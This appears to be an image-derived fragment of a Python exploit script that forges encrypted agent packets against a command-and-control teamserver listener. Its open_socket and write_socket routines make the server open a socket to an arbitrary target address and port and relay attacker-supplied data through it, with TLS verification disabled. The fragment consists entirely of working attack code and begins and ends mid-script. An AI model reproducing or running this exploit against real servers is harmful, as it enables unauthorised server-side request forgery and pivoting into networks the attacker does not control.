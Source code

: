 ```python
    command = b"\x00\x00\x09\xec"
    request_id = b"\x00\x00\x00\x02"

    # SOCKET_COMMAND_OPEN / 16
    subcommand = b"\x00\x00\x00\x10"
    sub_request_id = b"\x00\x00\x00\x03"

    local_addr = b"\x22\x22\x22\x22"
    local_port = b"\x33\x33\x33\x33"
    
    forward_addr = b""
    for octet in target_address.split(".")[::-1]:
        forward_addr += int_to_bytes(int(octet), length=1)

    forward_port = int_to_bytes(target_port)

    package = subcommand+socket_id+local_addr+local_port+forward_addr+forward_port
    package_size = int_to_bytes(len(package) + 4)

    header_data = command + request_id + encrypt(AES_Key, AES_IV, package_size + package)

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    data = agent_header + header_data


    print("[***] Trying to open socket on the teamserver ...")
    r = requests.post(teamserver_listener_url, data=data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to open socket on teamserver - {r.status_code} {r.text}")

def write_socket(socket_id, data, message):
    # COMMAND_SOCKET / 2540
    command = b"\x00\x00\x09\xec"
    request_id = b"\x00\x00\x00\x08"

    # SOCKET_COMMAND_READ / 11
    subcommand = b"\x00\x00\x00\x11"
    sub_request_id = b"\x00\x00\x00\xa1"

    # SOCKET_TYPE_CLIENT / 3
    socket_type = b"\x00\x00\x00\x03"
    success = b"\x00\x00\x00\x01"

    data_length = int_to_bytes(len(data))

    package = subcommand+socket_id+socket_type+success+data_length+data
    package_size = int_to_bytes(len(package) + 4)

    header_data = command + request_id + encrypt(AES_Key, AES_IV, package_size + package)

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    post_data = agent_header + header_data

    print(message)
    r = requests.post(teamserver_listener_url, data=post_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
```